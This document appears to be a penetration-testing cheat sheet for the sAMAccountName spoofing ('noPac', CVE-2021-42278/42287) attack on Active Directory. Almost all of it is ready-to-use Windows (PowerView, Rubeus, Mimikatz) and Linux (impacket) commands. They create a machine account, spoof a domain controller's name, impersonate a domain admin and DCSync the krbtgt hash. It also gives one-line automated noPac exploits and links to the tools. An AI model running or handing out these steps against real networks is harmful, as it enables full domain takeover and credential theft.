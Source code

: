 # sAMAccountName spoofing

## Windows

### Add computer account
```
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newPassword>' -AsPlainText -Force)
```

### Set serviceprincipalname to empty value
```
Set-DomainObject -Identity <newComputer> -Clear serviceprincipalname
```

### Change sAMAccountName to Domain Controllers name without trailing $
```
Set-MachineAccountAttribute -MachineAccount "<newComputer>" -Value "<dcNo$>" -Attribute samaccountname -Verbose
```

### Request a TGT for new computer account
```
Invoke-Rubeus -Command 'asktgt /user:<dcNo$> /password:<newPassword> /domain:<domain> /dc:<fqdnDc> /nowrap'
```

### Reset the controlled machine account sAMAccountName to its old value
```
Set-MachineAccountAttribute -MachineAccount "<dcNo$>" -Value "<newComputer>" -Attribute samaccountname -Verbose
```

### Obtain a service ticket with S4U2self by presenting the previous TGT
```
Invoke-Rubeus -Command 's4u /self /impersonateuser:<domainAdmin> /altservice:cifs/<fqdnDc> /dc:<fqdnDc> /ptt /ticket:<base64>'
```

### Dcsync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /kdc:<fqdnDc> /user:<targetUser>"'
```

### Automatic - receive TGT of vulnerable domain controller
```
.\noPac.exe scan -domain <domain> -user <user> -pass <password>
Invoke-noPAC -Command 'scan -domain <domain> -user <user> -pass <password>'
```

## Linux

### Add computer account
```
impacket-addcomputer -computer-name '<newComputer>' -computer-pass '<newComputerPassword>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Set serviceprincipalname to empty value
```
impacket-addspn -u '<domain>\<user>' -p '<password>' -t '<newComputer>' -dc-ip <dcIp>
```

### Change sAMAccountName to Domain Controllers name without trailing $
```
renameMachine -current-name '<newComputer$>' -new-name '<domainController>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Request a TGT for new computer account
```
impacket-getTGT -dc-ip <dcIp> '<domain>/<domainController>:<newComputerPassword>'
```

### Reset the controlled machine account sAMAccountName to its old value
```
renameMachine -current-name '<domainController>' -new-name '<newComputer$>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Obtain a service ticket with S4U2self by presenting the previous TGT
```
KRB5CCNAME='domainController.ccache' impacket-getST -self -impersonate '<targetAdmin>' -spn 'cifs/<domainController>.<domain>' -k -no-pass -dc-ip <dcIp> '<domain>'/'<domainController>'
```

### Dcsync
```
KRB5CCNAME='<targetAdmin>.ccache' impacket-secretsdump -just-dc-user 'krbtgt' -k -no-pass -dc-ip <dcIp> @<fqdn>
```

### Automatic - receive TGT of vulnerable domain controller
```
python noPac.py <domain>/<user>:<password> -dc-ip <dcIp>
```

### References
https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html  
https://github.com/cube0x0/noPac  
https://github.com/Ridter/noPac  
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  
https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1  
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://raw.githubusercontent.com/SecureAuthCorp/impacket/b4fbcf9196e9b6098edae0ae7794005d2e138ccd/examples/renameMachine.py  
https://gist.githubusercontent.com/S3cur3Th1sSh1t/0ed2fb0b5ae485b68cbc50e89581baa6/raw/4f0ab724a11c8984c29097250b1a8263e013d183/Invoke-noPac.ps1
https://www.cvedetails.com/cve/CVE-2021-42278  
https://www.cvedetails.com/cve/CVE-2021-42287  
https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing  

